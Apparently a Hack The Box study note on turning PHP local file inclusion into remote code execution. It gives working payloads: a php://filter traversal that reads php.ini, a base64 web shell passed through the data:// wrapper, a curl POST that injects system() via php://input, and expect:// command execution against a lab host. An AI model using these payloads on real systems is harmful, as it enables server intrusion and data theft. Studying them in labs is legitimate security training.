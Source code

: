 ### Data Wrapper
The [data](https://www.php.net/manual/en/wrappers.data.php) wrapper can be used to include external data, including PHP code. However, the data wrapper is only available to use if the (`allow_url_include`) setting is enabled in the PHP configurations

PHP configuration file found at (`/etc/php/X.Y/apache2/php.ini`) for **Apache**
PHP configuration file found at  (`/etc/php/X.Y/fpm/php.ini`) for Nginx

We try to read the config file using LFI like so
```bash
php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
```

```bash
adot8@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP' | base64 -d | grep allow_url_include

allow_url_include = On
```

With `allow_url_include` enabled, we can proceed with our `data` wrapper attack

```bash
echo '<?php system($_GET["cmd"]); ?>' | base64
```

```bash
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```

### Input Wrapper
Similar to the `data` wrapper, the [input](https://www.php.net/manual/en/wrappers.php.php) wrapper can be used to include external input and execute PHP code. The difference between it and the `data` wrapper is that we pass our input to the `input` wrapper as a POST request's data. So, the vulnerable parameter must accept POST requests for this attack to work. Finally, the `input` wrapper also depends on the `allow_url_include` setting, as mentioned earlier

```bash
curl -s -X POST --data '<?php system($_REQUEST["cmd"]); ?>' "http://10.10.10.10/index.php?language=php://input&cmd=id" | grep uid
```

### Expect Wrapper
We may utilize the [expect](https://www.php.net/manual/en/wrappers.expect.php) wrapper, which allows us to directly run commands through URL streams. Expect works very similarly to the web shells we've used earlier, but don't need to provide a web shell, as **it is designed to execute commands**.

`extension=expect` must be present within the php config file

```bash
php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
```

```bash
adot8@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O=' | base64 -d | grep expect
extension=expect
```

Exploit
```bash
curl -s "http://10.10.10.10/index.php?language=expect://id"
```